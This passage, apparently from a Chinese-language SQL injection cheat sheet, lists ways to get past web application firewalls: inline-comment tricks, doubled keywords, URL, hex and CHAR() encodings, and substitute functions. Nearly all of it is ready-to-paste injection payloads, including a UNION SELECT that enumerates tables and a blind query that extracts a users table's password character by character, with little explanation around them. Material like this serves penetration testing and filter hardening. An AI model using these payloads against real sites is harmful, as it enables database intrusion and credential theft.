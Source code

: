 ```
id=-1'UnIoN/**/SeLeCT


```

**（3）内联注释绕过**

```
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#


```

**（4） 双关键字绕过（若删除掉第一个匹配的 union 就能绕过）**

```
id=-1'UNIunionONSeLselectECT1,2,3–-


```

### 10. 通用绕过（编码）

如 URLEncode 编码，ASCII,HEX,unicode 编码绕过：

```
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。


```

### 11. 等价函数绕过

```
hex()、bin() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()


```

举例：substring() 和 substr() 无法使用时：

```
?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74


```

或者：

```
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1


```
